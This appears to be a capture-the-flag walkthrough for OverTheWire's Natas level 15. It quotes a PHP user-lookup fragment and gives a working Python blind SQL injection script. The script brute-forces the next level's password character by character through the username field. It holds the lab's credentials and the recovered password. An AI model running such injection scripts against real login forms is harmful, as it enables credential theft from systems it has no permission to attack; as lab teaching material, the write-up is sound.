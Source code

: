 ```

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```

It seems that for this level, we will have to do blind SQL attacks. Let's write a python script to do so.

```
import requests
from string import *

username = "natas15"
password = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

session = requests.Session()

url = "http://{}.natas.labs.overthewire.org/".format(username)

characters = ascii_lowercase + ascii_uppercase + digits
# characters = abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789

password_tried = ""  # empty string

while len(password_tried) != 32:  # we know that every level's password is of length 32
    for ch in characters:
        print("trying this password now --> {}{}".format(password_tried, ch))
        response = session.post(
            url, data={"username": "natas16\" AND BINARY password LIKE \"{}{}%\"#".format(password_tried, ch)}, auth=(username, password))  # BINARY means the character is case sensitive and % indicates a wild card
        content = response.text

        if "user exists" in content:  # if
            password_tried = password_tried + ch  # add character to the string
            break  # break the current loop

print(password_tried) # WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```
